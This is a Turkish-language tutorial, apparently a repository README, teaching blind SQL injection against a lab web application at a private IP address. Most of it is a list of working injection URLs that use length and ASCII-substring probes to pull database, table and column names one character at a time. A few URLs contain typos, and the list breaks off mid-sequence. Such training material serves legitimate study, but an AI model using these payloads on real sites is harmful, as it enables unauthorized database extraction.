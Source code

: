

### Blind SQL Injection - Also Known As 'Inferential SQL injections'

"Blind Sql Injection" Bir Injection Yöntemidir.Bu Hata Almadan Uygulayacağımız Bir Yöntemdir.Blind Kör Anlamına Gelmektedir.Sitenin Sonuna ' İşareti Koyduğumuzda Site Hata Vermek Yerine Sayfa Değiştirir.Yani Site Hata Vermez Fakat Biz Hatayı Sayfanın Değişmesinden Anlarız.

> http://192.168.56.101/sqli/example1.php?name=root' and CHAR_LENGTH((select count(*) from information_schema.schemata)) = 1 %23

Kaç adet veri tabanı var sorgusunun çıktısının karakter uzunluğunu öğrenmek için kullanmamız gereken sorgu.

> http://192.168.56.101/sqli/example1.phpname=root' and CHAR_LENGTH((select count(*) from information_schema.tables where table_schema = 'exercises')) = 1 %23

exercises veri tabanında kaç adet tablo var sorgusunun karakter uzunluğunu verir.

> http://192.168.56.101/sqli/example1.php?name=root' and CHAR_LENGTH((select count(*) from information_schema.columns where table_name = 'users')) = 1 %23 

users tablosunda kaç adet column (sütun) var sorgusunun çıktısının karakter uzunluğunu verir.

> http://192.168.56.101/sqli/example1.phpname=root' and CHAR_LENGTH((select schema_name from information_schema.schemata limit 0,1)) = 18 %23

1.veri tabanının adının karakter uzunluğu 18 mi?

> http://192.168.56.101/sqli/example1.php?name=root' and ascii(substring((select schema_name from information_schema.schemata limit 0,1),1,1)) = 105 %23

İlk veritabanının ilk harfi

> http://192.168.56.101/sqli/example1.php?name=root' and ascii(substring((select schema_name from information_schema.schemata limit 0,1),2,1)) = 105 %23

İlk veritabanının ikinci harfi

> http://192.168.56.101/sqli/example1.php?name=root' and ascii(substring((select schema_name from information_schema.schemata limit 1,1),1,1)) = 105 %23

İkinci veritabanının ilk harfi

> http://192.168.56.101/sqli/example1.php?name=root' and ascii(substring((select table_name from information_schema.tables where table_schem = 'information_schema' limit 0,1),1,1)) = 67 %23

information_schema veri tabanındaki ilk tablonun ilk harfi

> http://192.168.56.101/sqli/example1.php?name=root' and ascii(substring((select table_name from information_schema.tables where table_schem = 'information_schema' limit 0,1),2,1)) = 67 %23 

information_schema veri tabanındaki ilk tablonun ikinci harfi

> http://192.168.56.101/sqli/example1.php?name=root' and ascii(substring((select table_name from information_schema.tables where table_schem = 'information_schema' limit 1,1),1,1)) = 67 %23

information_schema veri tabanındaki ikinci tablonun ilk harfi

> http://192.168.56.101/sqli/example1.php?name=root' and ascii(substring((select column_name from information_schema.columns where table_name = 'CHARACTER_SETS' limit 0,1),1,1)) = 67 %23
